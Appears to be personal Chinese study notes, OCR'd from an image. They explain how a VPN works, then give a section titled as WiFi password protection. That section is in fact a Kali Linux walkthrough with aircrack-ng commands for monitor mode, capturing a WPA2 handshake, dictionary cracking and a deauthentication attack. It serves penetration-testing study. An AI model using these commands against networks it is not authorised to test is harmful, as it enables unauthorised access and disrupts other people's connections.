```

工作原理说明：
- 1. VPN客户端：用户运行在自己设备上的VPN客户端软件，用于与VPN服务器建立连接。
- 2. VPN服务器：由VPN服务提供商管理的服务器，用于处理客户端与目标服务器之间的通信。
- 3. Internet：公共互联网，作为数据传输的媒介。
- 4. 客户端设备：用户的计算机、手机或其他设备，需要通过VPN访问目标服务器。
- 5. 目标服务器：用户希望访问的具体资源或服务所在的服务器。

VPN的工作原理如下：
- 1. 用户在本地设备上运行VPN客户端软件，并输入所需的连接参数，如服务器地址、用户名和密码。
- 2. VPN客户端通过Internet连接到VPN服务器。这通常使用加密的通信协议（如OpenVPN、IPsec等）来确保连接的安全性。
- 3. 一旦建立了VPN连接，所有通过VPN客户端的流量将被加密并通过Internet传输到VPN服务器。
- 4. VPN服务器解密接收到的数据，并将其转发到目标服务器。
- 5. 目标服务器将请求的数据返回给VPN服务器。
- 6. VPN服务器再次加密响应数据并通过Internet传输回VPN客户端。
- 7. VPN客户端解密响应数据，并将其发送到用户的本地设备上进行处理和显示。
通过建立VPN连接，用户可以在公共网络上创建一个安全的隧道，使得他们的网络流量在传输过程中得到加密保护。这样可以实现远程访问内部网络资源、保护隐私和绕过地理限制等功能。
需要注意的是，具体的VPN实现和工作原理可能因使用的协议和技术而有所不同。上述示意图只是一个简单的示例，真实的VPN架构可能更为复杂。
---
28. 如何防护WiFi密码
首先要用到kali系统【渗透测试专用】
- 开启无线监听模式`airmon-ng start wlan0`[airmon-ng查看网卡监听状态]【monitor】【信号值大于65别连了】
【WiFi有ch频道】[wpa2是无线网加密类型]
- 扫描范围 `airodump-ng wlan0mon`
- 抓WiFi握手包`airodump-ng --bssid 52:02:05:9D:62:F9 -c 6 -w sxny wlan0mon`(wifi密码就在握手包里面)
手动添加ssid
- 破解密码`aircrack-ng -w top100.txt sxny-02.cap`
- wifi攻击`airplay-ng -0 8 -c mac地址 -a mac地址 wlan0mon`

---
- 终于算是告一段落了。现在时间是2024/3/11 0:34:57
---